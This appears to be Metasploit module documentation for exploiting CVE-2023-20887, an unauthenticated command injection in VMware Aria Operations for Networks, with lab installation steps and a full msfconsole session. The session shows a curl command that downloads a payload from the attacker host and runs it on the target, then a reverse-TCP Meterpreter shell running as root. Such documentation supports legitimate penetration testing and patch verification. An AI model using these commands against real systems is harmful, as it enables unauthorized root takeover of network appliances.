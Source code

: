 ## Vulnerable Application

VMWare Aria Operations for Networks (vRealize Network Insight) is vulnerable to command injection
when accepting user input through the Apache Thrift RPC interface. This vulnerability allows a
remote unauthenticated attacker to execute arbitrary commands on the underlying operating system
as the root user. The RPC interface is protected by a reverse proxy which can be bypassed.
VMware has evaluated the severity of this issue to be in the Critical severity range with a
maximum CVSSv3 base score of 9.8. A malicious actor can get remote code execution in the
context of `root` on the appliance.
VMWare versions 6.2 to 6.10 are vulnerable.

This module exploits the vulnerability to upload and execute payloads gaining root privileges.
Successfully tested against version 6.8.0.

### Install

The OVA file can be downloaded from the VMware Customer Connect portal.

1. Import the file VMware-vRealize-Network-Insight-6.8.0.1666364233-platform.ova into VMware Fusion
2. Login with the given credentials `consoleuser:console`
3. Run the `setup` command to begin setup

Starting Step 1/4: Create User Passwords
1. Enter and re-enter SSH_User_Password: `notpassword`
2. Enter and re-enter CLI_User_Password: `notpassword`

Starting Step 2/4: Network Configuration:
1. Enter IP_Family: `ipv4`
2. Enter IP_Address: `192.168.1.60`
3. Enter Default_Gateway: `192.168.1.254`
4. Enter DNS: `4.2.2.4 8.8.8.8`
5. Enter Domain_Search: `example.com`
6. Save configuration: `y`

Starting Step 3/3: Network Time Server Configuration:
1. Is the Network Time Security supported for NTP servers? `n`
2. Enter NTP servers: `0.us.pool.ntp.org`

Step 4/4: Web-Proxy (Optional Configuration)
1. Configure web proxy?: `n`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/vmware_vrni_rce_cve_2023_20887`
1. Do: `set rhost [ip]`
1. Do: `set lhost [ip]`
1. Do: `set FETCH_SRVHOST [ip]`
1. Do: `run`
1. You should get a root shell.

## Options

## Scenarios

### VMware vRealize Network Insight 6.8.0 1666364233

```
msf > use linux/http/vmware_vrni_rce_cve_2023_20887
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set rhost 192.168.1.60
rhost => 192.168.1.60
msf exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set lhost 192.168.1.67
lhost => 192.168.1.67
msf exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > set FETCH_SRVHOST 192.168.1.67
FETCH_SRVHOST => 192.168.1.67
msf exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > options

Module options (exploit/linux/http/vmware_vrni_rce_cve_2023_20887):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.60     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      hHTNUdqFrV       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.1.67     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.67     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf exploit(linux/http/vmware_vrni_rce_cve_2023_20887) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.1.60:443 can be exploited.
[+] The target is vulnerable. VMWare Aria Operations for Networks (vRealize Network Insight) version 6.8.0 was found.
[*] Executing Unix (In-Memory) with curl -so ./yjUczQeXbCf http://192.168.1.67:8080/VtUnMtEdkI5A0Lv6Y2zkFw; chmod +x ./yjUczQeXbCf; ./yjUczQeXbCf &
[*] Attempting to execute shell
[*] Sending stage (3045348 bytes) to 192.168.1.60
[*] Meterpreter session 9 opened (192.168.1.67:4444 -> 192.168.1.60:52370) at 2023-07-20 14:50:13 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.1.60
OS           : Ubuntu 18.04 (Linux 5.4.0-126-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
